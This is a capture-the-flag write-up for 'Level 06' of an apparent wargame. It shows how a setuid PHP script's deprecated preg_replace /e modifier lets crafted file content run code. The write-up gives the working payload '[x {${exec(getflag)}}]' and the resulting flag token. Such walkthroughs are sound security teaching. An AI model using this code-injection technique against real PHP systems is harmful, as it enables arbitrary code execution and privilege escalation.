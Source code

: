 # Level 06

As `level06`, running `ls` gives us a binary called `level06` and a PHP script named `level06.php` inside our home folder. Here's the sourcecode for the latter.

```php
  $> cat level06.php
  
  #!/usr/bin/php
  <?php
    function y($m) {
      $m = preg_replace("/\./", " x ", $m);
      $m = preg_replace("/@/", " y", $m);
      
      return $m;
    }

    function x($y, $z) {
      $a = file_get_contents($y);
      $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
      $a = preg_replace("/\[/", "(", $a);
      $a = preg_replace("/\]/", ")", $a);
      
      return $a; 
    }
    
    $r = x($argv[1], $argv[2]);
    print $r;
  ?>
```

> This script basically takes two arguments (the second is useless), the first one must be an existing file. It opens it, do a bunch of regular expression stuff on it and then prints the result on standard output.

The interesting part, the following line:

```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

> This regex uses a deprecated PHP only modifier infamously known for its security issues. Every occurence that matches the expression will be evaluated as PHP code. If we correctly format our file content we could execute arbitrary code with it.

Running `ls -l` to get more infos...

```shell
  $> ls -l
  total 12
  -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06    
  -rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Both files belong to `flag06` who has the right to execute `getflag`. So, like previous levels, we simply need to tinker our file content to call it and retrieve the flag. 

```shell
  $> echo '[x {${exec(getflag)}}]' > /tmp/getflag
  $> ./level06 /tmp/getflag
  PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp 
code on line 1
  PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

> Using [curly syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex) we can ask PHP to replace a variable by its value. This way after `exec` evaluation the output message of `getflag` becomes the variable we try to access. Since PHP does not know it, an error with the original output is sent back to us.

So, `wiok45aaoguiboiki2tuin6ub` is the flag for this level.
